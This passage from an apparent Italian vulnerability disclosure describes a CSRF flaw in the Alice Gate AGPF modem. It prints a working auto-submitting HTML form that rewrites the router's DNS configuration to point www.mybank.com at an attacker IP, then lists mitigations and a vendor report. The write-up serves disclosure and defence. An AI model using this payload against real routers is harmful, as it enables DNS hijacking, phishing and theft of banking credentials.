 Una volta assicurati che la richiesta POST è corretta (attenzione, richieste sbagliate potrebbero corrompere il file di configurazione e rendere il modem inutilizzabile) prepariamo il form per l'autoesecuzione del CSRF:

```html

<FORM action="http://192.168.1.1/admin.cgi" method="post">
<INPUT type=HIDDEN name="active_page" value="9130">
<INPUT type=HIDDEN name="page_title" value="Alice - Info">
<INPUT type=HIDDEN name="mimic_button_field" value="submit_button_avanti: avanti..">
<INPUT type=HIDDEN name="button_value" value="attiva">
<INPUT type=HIDDEN name="strip_page_top" value="0">
<INPUT type=HIDDEN name="stack_set" value="(stack_set
  (0
    (path(dns/entry))
    (index(-1))
    (set
      (-1
        (ip(109.168.126.241))
        (hostname(www.mybank.com))
      )
    )
  )
)
">
</FORM>
<SCRIPT>
window.onload = function(){ document.forms[0].submit(); }
</SCRIPT>
```

Un browser che apra questa pagina automaticamente farà un submit del form aggiungendo nel path path `dns` del `discus.conf` il record malevolevolo, con ovvie possibilità di phishing e sottrazione delle credenziali di *www.mybank.com*. Gli altri attacchi descritti nell'[articolo introduttivo]({{ site.url }}/2012/09/02/alice-gate-agpf-csrf-reconf-vulnerability/) sono ugualmente semplici da effettuare.
 
<h2 id="mitigazione"> Mitigazione </h2>

Ho contattato Telecom Italia un mese fa, offrendo la analisi tecnica della vulnerabilità e PoC per facilitarne lo studio. Per risolvere il problema il fix ufficiale dovrebbe: 

- Sanificare l'input inviato dall'utente con la variabile HTTP post, evitando la riscrittura del file di configurazione via richista HTTP 
- Implementando anti CSRF token per ogni form
- Abilitando di default l'autenticazione alla interfaccia web

I primi due punti non sono applicabili dall'utente poichè il CGI vulnerabile è compilato in un binario che gestisce l'interfaccia web. Il terzo fix non risolve la situazione ma limita i casi in cui l'attacco CSRF può andare a segno. Questo metodo ed altre protezioni da abilitare in attesa che venga rilasciato il fix ufficiale.

